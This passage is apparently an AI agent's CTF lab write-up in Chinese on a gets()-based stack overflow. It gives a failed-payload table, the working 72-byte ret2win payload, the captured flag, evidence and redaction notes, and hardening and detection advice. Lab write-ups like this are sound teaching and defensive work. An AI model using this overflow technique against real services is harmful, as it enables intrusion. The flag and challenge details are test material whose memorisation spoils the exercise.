> 记录一个小坑：08 这张图最初点不动"端口映射 +2"徽标，因为该组件是 hover tooltip 而非 click 展开；改成 `page.mouse.move()` 悬停后才截到 tooltip。


### 10. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | username=72×`A` + 正确口令 | `Segmentation fault (core dumped)` | 只填满 64 B 缓冲区 + 8 B saved RBP，`gets` 补的 NUL 写到返回地址最低字节 ⇒ 返回地址被破坏 | 在第 73 字节起写 8 字节目标地址 |
| 2 | username=80×`A` | `Segmentation fault` | 返回地址被 `0x4141414141414141` 覆盖 | 同上 |
| 3 | `p64(0x402004)`（`"/flag"` 字符串地址） | `Segmentation fault` | `.rodata` 所在段不可执行 | 目标必须是代码段地址 |
| 4 | `p64(0x4011de)` | `Segmentation fault` | 跳进 `sub rsp,0x110`（7 字节）指令中间 → 错位解码 | 目标必须是函数/指令边界 |
| 5 | `p64(0xdeadbeef)` | `Segmentation fault` | 不可映射地址 | 同上 |
| 6 | `p64(0x4011d7)`（本以为是失败对照） | **打印出了 flag** | `0x4011d7` 是 `mov rbp,rsp`，跳过 `push rbp` 但后续指令完整可执行 ⇒ 实为"成功的错位入口" | 记录为意外发现，另取 `0x4011de` 作为真正的失败对照 |
| 7 | 直接 `diff` 两份 `objdump -d` 文本 | 满屏地址差异 | 少一个导入项导致 `.text` 整体 `-0x10`，没做地址归一化 | 写 `patch_diff.py`：按函数边界切分 + 归一化 `0x40xxxx`、`[rip+disp]`、注释后再 diff ⇒ 只剩 `read_input` 与 `main` 两处 |
| 8 | 把 `/api/student/instances`、`answerHistory` 直接渲染成图（首版） | 图内出现 `currentUser`（账号、姓名、班级、`lastIP`） | 这两个接口都会返回当前用户信息，违反公开仓库的脱敏要求 | 渲染前用 `make_page_06.py` **整段剔除 `currentUser`**，并在图内标注；未脱敏原文只落 `.local/` |
| 9 | 做 08 端口映射图时单击「端口映射 +2」徽标 | 未展开 | 该组件是 hover tooltip，不是 click 展开 | 改成 `page.mouse.move()` 悬停后截图 |

### 11. 教学问答：5 问 5 答，Q3 回答不对路（截图 09、09b、10）

围绕本题向课程教学问答平台（Qwen2.5）提了 **5 个问题**（同一会话 `conversation_id = 5619`，真实页面显示「10 条」，间隔 13 秒，排队 `waiting=0`、`busy=1~2`、`slots=64`，**一次未重试全部成功**），问答原文另存 `.local/process/7-1-qa-transcript.json`。会话真实性用 3 个会话指纹（"少了一个 PLT 项"、"v1 的动态导入表里有 gets"、"challenge_v1"）在历史面板核对，命中唯一一条 `10-16 16:20 · 10 条`。

**教学模型的输出只作思路参考，下表如实标注准确性：**

| # | 主题 | 回答要点与准确性核对 | 质量 |
| --- | --- | --- | --- |
| Q1 | `gets()` 为何无法做边界检查 / 编译器为何不禁止 / 72 字节偏移的来历 | 主干正确：无界读到换行或 EOF；C11 移除但保留兼容；编译器只在编译期给警告、不改变 ABI。**一处不精确**：把 72 里的 `+8` 先归因于"结构体的对齐填充"，正确原因是 **saved RBP 占 8 字节**（同段第二点提到"返回地址与栈帧信息"才算对路） | ✅ 基本正确 |
| Q2 | stripped ELF 的 `.text` 位移归一化后如何定位真正改动的函数 | 方法对路：先由节起始算位移 → 地址对齐后再 diff → 逐函数比对（与我的 `patch_diff.py` 做法一致）；模型示例里的 `.text` 起始地址是虚构值，不影响方法 | ✅ 方法对路 |
| Q3 | `fgets(username,64,stdin)` + `strcspn` 为何能挡住 ret2win；第二个参数写 64 还是 63 | **回答不对路**：模型只答了"`char username[64]` 可存 63 个字符 + 1 个 `\0`"，**既没有回答"为什么能挡住溢出"（63/NUL 永不出缓冲区 ⇒ 到不了 saved RBP/RIP），也没有正面比较 `fgets(buf,64)` 与 `fgets(buf,63)` 的边界差别**。**口径说明**：平台问句的"64 与 63"本身有歧义，我按"`fgets` 第二参数 = 缓冲区大小 64（最多读 63 字节 + NUL）"理解；若写 63 则最多读 62 字节——本题结论以我的静态分析为准，不引用模型此问 | ⚠️ **不对路** |
| Q4 | 三层加固清单（源码 / 编译期 / 运行期） | 覆盖面完整：`gets→fgets` + 长度检查；`-fstack-protector-strong`、`-D_FORTIFY_SOURCE`、`-fPIE -pie`、RELRO/BIND_NOW；ASLR、seccomp、容器最小权限 | ✅ 完整 |
| Q5 | 蓝队：静态扫描 / 运行期检测 / 应急处置 | 结构完整：源码与二进制双向扫描（`clang-tidy` / SonarQube / `strings` / 反汇编）；日志、core dump（`gdb`）、连接行为与 `auditd`；处置为隔离 → 取证 → 紧急修复 → 加固 → 回溯 → 培训。二进制层面的"如何扫"略泛 | ✅ 结构完整（细节略泛） |





### 12. 截图真实性与脱敏说明

`7-1/screenshots/` 共 **14 张 PNG，无其他文件**（渲染源 HTML 在 `.local/process/7-1-scripts/render/`，脚本与日志在 `.local/process/7-1-scripts/`，均不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01-靶机banner与交互.png` | `nc` banner + 错/对口令 + 64 字节满界试探 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02-静态确认-v1与v2导入表差异.png` | `objdump -R` 导入表差异 + ELF 头（`ET_EXEC`/`GNU_STACK=RW`/无 canary） | 同上 |
| `03-补丁对比-.text差异.png` | `patch_diff.py` 函数级表 + `read_input`/`main` 逐指令差分 | 同上 |
| `03b-补丁对比-v1漏洞点与偏移计算.png` | v1 `gets` 调用点、缓冲区布局、偏移 72 的逐步推导 | 同上 |
| `04-失败对照-偏移与目标地址.png` | 5 条失败对照（72×A、80×A、`0x402004`、`0x4011de`、`0xdeadbeef`）+ 误标为失败对照的 `0x4011d7` | 同上 |
| `05-利用成功-服务打印flag.png` | ret2win 请求/响应 + flag 稳定性复验 | 同上 |
| `06-平台判分-answerHistory.png` | `answerHistory` 5 条 `isCorrect=true` | 渲染稿（**已脱敏**：`currentUser` 整段删除） |
| `07-平台作答页-五题已提交.png` | 作答页 Q1–Q3「作答正确」 | **真实页面截图**（viewport 1440×900、dSF=2） |
| `07b-平台作答页-五题已提交-下半.png` | 作答页 Q4（B、C 勾选）+ Q5（附件 + flag 输入框） | **真实页面截图**（同上） |
| `08-平台实例-端口映射.png` | 「我的实例」页 `C035-G1-F` + 悬停 tooltip 端口映射 | **真实页面截图**（viewport 1440×1000、dSF=2） |
| `08b-实例API-portInfos.png` | `/api/student/instances` 的 `podID`/`state`/`portInfos` | 渲染稿（**已脱敏**：`currentUser` 整段删除） |
| `09-AI问答-教学平台真实页面.png` | 问答页历史面板本题会话高亮 + Q1 问答 | **真实页面截图**（viewport 1440×1100、dSF=2） |
| `09b-AI问答-教学平台真实页面-本题会话底部.png` | 问答页本题会话最后一问与回答 | **真实页面截图**（同上） |
| `10-AI问答-本题问答总览.png` | 会话 5619 五组问答全文 + 主题标签 | 渲染稿（会话原文不含账号信息，无需涂白） |

**为什么终端类图是渲染稿**：题目服务是**裸 TCP、不是 HTTP**，无法像网页那样实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`05` 按 shared-ops 的做法，把**真实命令/回显与原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「非终端实拍：下图为真实命令回显的渲染稿」**，未冒充终端实拍。

**脱敏范围（坐标为本次 viewport 实测，未照抄 5-x/6-x 的值）**：

| 图 | 处理 | 实测参数 |
| --- | --- | --- |
| `09`、`09b`（问答页顶栏账号胶囊） | **已涂白** | 目标矩形（device px）`(2136, 44)-(2486, 110)`，四周各留约 5 px、右侧不碰「帮助」按钮（其 x≈2557）；填充色为顶栏实测背景色 `rgb(255,252,247)`，标注文字「账号已脱敏」用 `rgb(92,88,82)`。定位方式：`page.evaluate` 取账号元素 `getBoundingClientRect()` = `{x:1070.05, y:25, w:169.55, h:26.48}`（CSS px，`dpr=2`）⇒ device `(2140,50)-(2479,103)`。脚本 `.local/process/7-1-scripts/mask_qa_header.py`（`--check` 干跑 → `--apply`）；**ink 判据** = 与背景色曼哈顿距离 > 60 的像素数，涂白前 **3624** → 涂白后 **923**（余下即「账号已脱敏」四字本身）。裁剪复验图 `logs/crops/09…-who-crop.png`、`09b…-who-crop.png` 目视确认昵称与学号已被完全覆盖 |
| `07`、`07b`、`08`（VMC 顶栏账号区） | **未涂白（判定为无个人信息）** | 判据：与 5-2 相同的"背景色差异 ink 列聚类"方法，顶栏背景色 `rgb(114,177,239)`；三张图（宽 2880 device px）账号区 ink 簇均为 `(2473,2515) (2541,2576) (2619,2651) (2655,2686)`；裁剪 `(2400,20)-(2880,130)` 目视确认该区域是 `⊕` 图标、`文A` 图标与**通用标签「用户」**——**本次会话并未渲染账号昵称/学号**，故**不需要涂白**。脚本与原始输出：`mask_vmc_header.py --check`、`logs/17-vmc-header-check.txt`，裁剪复核图 `logs/crops/*-vmc-topright.png` |
| `06`、`08b`（渲染成图片的 JSON） | **已脱敏** | `/api/student/get/answerHistory` 与 `/api/student/instances` 的原始返回都含 `currentUser`（账号、昵称、班级、`lastIP` 等）；渲染前用 `make_page_06.py` **整段剔除**并以 `_note` 标注替代，图内注明脱敏范围。未脱敏原始 JSON 只落 `.local/process/7-1-scripts/logs/`（`.local/` 已在 `.gitignore`，不入库）；首版 `08b` 曾直接渲染带 cookie 的页面而露出 `currentUser`，**已删除重做**（见步骤 10 第 8 条） |
| `10`（问答总览渲染稿） | **无需涂白** | 会话原文（5 问 5 答）里不含账号、昵称、学号、IP 等个人信息 |

本文正文同样不记录任何凭据、cookie 或个人身份信息。

### 13. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| 题目服务 `172.17.0.13:14673`（容器 `s-149921`） | **无文件落地** | 利用全程只走 stdin 发两行（payload 行 + 口令行），`win` 只读容器内的 `/flag` 并 `write(1,…)` 后 `_exit(0)`；未上传文件、未写磁盘、未留后门 |
| 本机 | `7-1/screenshots/`（14 张 PNG，无其它文件）；`.local/process/7-1-scripts/`（`elf_info.py`、`patch_diff.py`、`interact.py`、`qa_ask.py`、`make_page_06.py`、`mask_vmc_header.py`、`mask_qa_header.py`、`gen_render.py` / `gen_qa_overview.py`、`shots_*.mjs`、`files/challenge_v{1,2}.elf`、`paper.json`、`render/` 渲染源、`logs/` 原始日志与复验裁剪图）；`.local/process/7-1-{ctf-process.md,qa-transcript.json,answers-rationale.md}` | `.local/` 与临时截图目录均不入库 |
| 附件 `files/challenge.exe`（49 B） | 一段 JSON `{"code":10087,"msg":"query question file failed"}` | 早先探错 URL 的产物，与本题无关、未使用；如实保留在脚本目录中 |
| 实例 | envID `1205`（`C035-G1-F`，容器 `s-149921`）交付时仍在 `Running`，未销毁 | 平台 `saveTime` 约 3 小时，到期由平台回收；如需善后可手动停止 |

## Flag

```text
vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}
```

该 flag 由题目服务 `172.17.0.13:14673` 直接打印（`b"A"*72 + p64(0x4011d6)` 覆盖 `main` 返回地址为 `win`），**没有 token、没有兑换步骤**；多次成功连接的输出完全一致（稳定性日志中同一 flag 出现 4 行），Lead 另以独立方式复现取得同一字符串，与平台作答页第 5 题输入框内的值、`answerHistory` 第 5 条（questionID 9393）判定为正确的提交值三者逐字一致。

## 总结与心得

### 漏洞原理

1. **根因是"无界读入写进定长栈缓冲区"**：`main` 把 `char username[64]` 的地址 `[rbp-0x40]` 交给 `read_input()`，而 `read_input` 内部（v1 `0x401293`）直接 `call gets@plt`。`gets` 从设计上就不可能做边界检查——它读到换行或 EOF 才停，**接口里根本没有"长度"这个参数**（CWE-120 / CWE-242）。因此输入长度完全由攻击者决定，`main` 的 saved RBP 与 saved RIP 都在射程内。
2. **偏移 72 的来历**：`[rbp-0x40]` 起 64 字节是缓冲区本体，紧接 `[rbp]` 的 8 字节是 saved RBP（`leave` 会 `pop rbp`，所以必须一起填掉，否则 `win` 内的 `rbp` 寻址全乱），再往上的 `[rbp+8]` 才是返回地址 ⇒ `64 + 8 = 72`。**偏移必须自己从反汇编算，不能靠"缓冲区大小"猜**——漏掉 saved RBP 的 8 字节就会像失败对照 1 那样只写坏返回地址的最低字节。
3. **三重"缺防护"恰好凑成一次 `ret` 就通关**：① **非 PIE**（`ET_EXEC`）⇒ `win` 的地址恒为 `0x4011d6`，可写死；② **无 stack canary**（反汇编里没有 `fs:0x28` / `__stack_chk_fail`）⇒ 不必泄漏也不必回填任何 cookie；③ **`win` 不依赖参数**（自己 `open("/flag")+read+write`）⇒ 不需要 ROP 链、不需要 `pop rdi`。NX 虽然开着，但对本题毫无影响，因为根本不需要注入 shellcode。
4. **`0x4011d7` 的意外成功揭示了"错位入口"的判据**：跳过 `push rbp` 后 `mov rbp,rsp; sub rsp,0x110; …` 依然自洽，所以 `win` 照样跑通；而 `0x4011de` 切进 `sub rsp,0x110` 指令中间就必然错位解码而崩溃。**"跳到函数内部"是否可行，取决于错位点之后的字节流能否解码成合理指令序列**，不能一概而论地当作失败对照。
5. **补丁的有效性来自"写入上界 < 关键槽位"这一条算术关系**：`fgets(buf,64,stdin)` 最多写 63 字节 + 1 个 NUL，且 NUL 落在缓冲区内部，写入上界 64 ≤ saved RBP 的偏移 64 ⇒ **永远碰不到 saved RBP/RIP**。也就是说，本题**不需要** canary/PIE 就能修好；反过来说，正是因为 v1 既无 canary 又非 PIE，单点缺失的代价被放到了最大。
6. **补丁定位的通用思路（本题最大的方法论价值）**：stripped 二进制之间**先看导入表**（`objdump -R`）——本题唯一变化的导入项就是 `gets` 被移除；再看"少一项 PLT 导致 `.text` 整体位移"这个连带效应；最后**必须先做地址归一化**（按函数边界切分 + 把绝对地址/rip 位移/注释占位化）再逐指令 diff，否则得到的只是位移噪声。归一化之后 9 个函数里 7 个逐条相同，真正改动只有 `read_input` 与 `main` 的调用点两处——**"先导入表、再归一化、后函数级比对"**这个顺序是可复用的。

### 做题方法

- **补丁对比题的两个"锚点"**：① **导入表决定语义方向**——`gets` 消失基本等于"无界读被改成了有界读"；② **节/函数位移决定读法**——`.text` 整体 `-0x10` 会让朴素文本 diff 满屏差异，必须先归一化。抓住这两个锚点，就能在 stripped 二进制上把"改了什么"缩到一两个函数。
- **偏移从栈帧图算，不从缓冲区大小猜**：`[rbp-0x40]` → 缓冲区 64 B → saved RBP 8 B → saved RIP，逐格写在纸上再写 payload；并用"64 字节满界不崩、72 字节崩"的实测结果反证缓冲区容量与偏移。
- **失败对照要单变量，并且要能解释"为什么失败"**：本题五条失败对照分别对应"偏移不足、偏移过量、目标不可执行、指令错位、地址不可映射"五种不同的错因，正好构成一张因果表。**尤其不要把"意外成功"当成"失败"**——`0x4011d7` 打印了 flag，就必须写清它是成功的错位入口，并另取 `0x4011de` 作为真正的错位失败对照。
- **先确认"胜利条件在哪里"再写 exploit**：本题通过 `nc` 摸底 + 二进制里的 `"/flag"` / `"no /flag"` 字符串 + `win` 的自开文件逻辑，确认**flag 由题目服务自己打印**，从而省掉了"取 token 再兑换"的整条链路（这也是"70 端口就是题目服务、没有第三个映射"这一步核对的价值）。
- **平台提交有两个格式约束**：`answers` 每条必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（单选 1、多选选 2 个填 2、填空固定 3、flag 放第 3 格）。判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。
- **对教学模型的回答保持复核**：本题 5 问里 Q3 **明显不对路**（只答了"64 字节可存 63 字符 + NUL"，没有回答"为什么能挡住溢出"与"64/63 的边界差别"），Q1 把 `+8` 归因于"结构体对齐填充"也不精确。教学问答适合梳理思路，**结论必须回到反汇编与靶机实测上验证**。
- **证据边界要说清**：`0x4011d6` 的成功是靶机实测（4 次连接一致）；而"v2 打不通"只有静态推演 + 长度/偏移计算，因为靶机跑的是 v1——两者在文中如实区分，不把推演写成实测。

### 修复建议

- **代码级（本题的根因修复）：用有界读替换无界读**。把 `gets` 换成 `fgets(buf, sizeof buf, stdin)`（本题 v2 的做法，再配 `buf[strcspn(buf,"\n")] = 0` 保持字符串语义），或"读入 + 长度校验 + 截断"。同时排查所有把外部数据写进定长栈缓冲区的路径（`strcpy` / `sprintf` / `memcpy` / `scanf("%s")` 同样要算长度），并在编译期开 `-Wall -Wextra -Wstringop-overflow` 让编译器把这类调用暴露在告警里。
- **编译期加固（本题三个缺口的逐项对应）**：
  - `-fstack-protector-strong`（canary）——本题**未开**。它能把"覆盖返回地址"变成 EPILOGUE 时 `__stack_chk_fail` 中止，是本题最直接的纵深防御；但注意它只保护返回值路径，不能替代有界读；
  - `-fPIE -pie`（ASLR + 位置无关）——本题**未开**（`ET_EXEC`）。开了之后 `win` 的地址不再固定，ret2win 需要先泄漏（这就把单次利用变成多阶段利用）；
  - `-D_FORTIFY_SOURCE=2` + 优化——可在编译期把已知缓冲区大小的 `gets`/`memcpy` 调用改成 `_chk` 版本并在运行期检测越界（`gets` 本身在 FORTIFY 下会直接编译失败或被替换）；
  - `-Wl,-z,relro,-z,now`（Full RELRO）——本题只有部分 RELRO（有 `GNU_RELRO` 段，但 `.got.plt` 是否只读需另测）；配合 GOT 只读可关闭"改写 GOT 再触发调用"这一类路径。
- **运行期与架构层**：服务以最小权限账户运行、只挂载它真正需要的文件——本题容器只映射 22/70、`win` 读的是容器内 `/flag`，**任何能劫持控制流的人都能读到它**（这正是"把敏感文件放在同进程可读位置"的代价）；进一步可用 seccomp 限制系统调用、用只读挂载与独立进程隔离敏感文件、在网络层限制来源；对外的调试性输出（提示串、错误分支）在发布版本中应最小化。
- **发布流程**：把"附件的两个版本"当成**回归测试的基线**——补丁发布前应有一条自动化用例复现原漏洞 payload（本题即 `"A"*72 + p64(0x4011d6)`）并确认修复版不再命中；同时给二进制保留 build-id / 可追溯的符号，避免每次都靠"导入表 + 手工归一化 diff"来反推改了什么。
- **检测与应急排查要点**（对应教学问答 Q5，并补上本题实测到的具体信号）：
  - **静态扫描**：源码侧用 `clang-tidy -checks='-*,security-*'` / SonarQube 等规则集扫 `gets`、`strcpy`、`sprintf` 等无界函数；**二进制侧先看导入表**——`objdump -R <elf> | grep -w gets` 一行就能筛出最可疑的候选（本题正是这样定位的），再反汇编核对该调用点的缓冲区大小与调用路径（`strings` / `nm -D` 作为补充）；
  - **运行期信号**：服务进程出现 `SIGSEGV` 且被 `core dumped`（本题失败对照的典型回显）、`dmesg` / `journalctl` 里指向同一二进制的 `segfault at … ip … rsp …`、同一来源 IP 短时间内多次"连着发超长 username 行 + 立刻断开"的异常连接、以及"进程存活时间异常短"的重启风暴；开了 canary 的服务则会看到 `__stack_chk_fail` / `*** stack smashing detected ***`；
  - **应急处置**：① 隔离（摘除流量或停服务，保留进程/容器现场，不要急着重启）；② 取证（保存 core dump、进程内存镜像、服务日志、`/flag` 的读取审计与访问时间、网络会话记录）；③ 紧急修复（按上面"代码级"替换 `gets` 并重新编译上线，同时确认攻击者是否已读取敏感文件）；④ 加固与回溯（补齐 canary / PIE / FORTIFY / RELRO，审计同源代码里其他无界读入，排查镜像与部署链是否被改动）；⑤ 复盘（把"导入表里出现 `gets`"列入发布前的二进制门禁检查）。

原始过程记录：`.local/process/7-1-ctf-process.md`；教学问答原文：`.local/process/7-1-qa-transcript.json`；选择题判定预登记：`.local/process/7-1-answers-rationale.md`；复现脚本与全部证据日志：`.local/process/7-1-scripts/`（`interact.py`：`recon` / `crash` / `pwn` 各用例；`elf_info.py`：ELF 头与程序头；`patch_diff.py`：函数级归一化 diff；`qa_ask.py`：5 问 5 答；`mask_vmc_header.py` / `mask_qa_header.py`：两处脱敏判定与涂白；`render/` 渲染源；`logs/` 原始输出与复验裁剪图）。
